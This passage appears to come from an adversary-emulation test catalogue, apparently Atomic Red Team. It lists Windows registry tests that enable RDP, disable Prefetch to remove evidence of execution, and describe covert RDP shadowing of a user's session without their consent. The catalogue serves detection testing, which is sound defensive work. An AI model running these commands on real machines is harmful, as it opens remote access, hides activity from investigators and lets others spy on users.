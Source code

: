 
```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1)
```





<br/>
<br/>

## Atomic Test #71 - Disable Windows Prefetch Through Registry
Modify the registry of the machine to disable prefetch. Disabling prefetch will remove one artifact for evidence of application execution. Restart is required post modification

**Supported Platforms:** Windows


**auto_generated_guid:** 7979dd41-2045-48b2-a54e-b1bc2415c9da






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v "EnablePrefetcher" /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v "EnablePrefetcher" /t REG_DWORD /d 3 /f
```





<br/>
<br/>

## Atomic Test #72 - Setting Shadow key in Registry for RDP Shadowing
Microsoft Remote Desktop Protocol (RDP) supports a “shadowing” feature and RDP is available in all Windows Server Operating Systems and the business editions of end-user Windows versions.
In order to use the RDP shadowing feature, the Remote Desktop Services (TermService) service needs to be running (which it does by default), a rule needs to be enabled in the Windows Firewall and in case of stealth reasons, a setting needs to be configured to not prompt the user for permission when they are being shadowed.
In order to configure RDP shadowing session in a quiet mode.  The registry of a remote system can be updated using several protocols, depending on the accessible ports and configuration of the services listening on those ports. Our aim is to set the Shadow value in HKLM\Software\Policies\Microsoft\Windows NT\Terminal Services on the remote machine to 2, which allows us to both view and control the session without the user being informed.
[Reference](https://blog.bitsadmin.com/spying-on-users-using-rdp-shadowing)
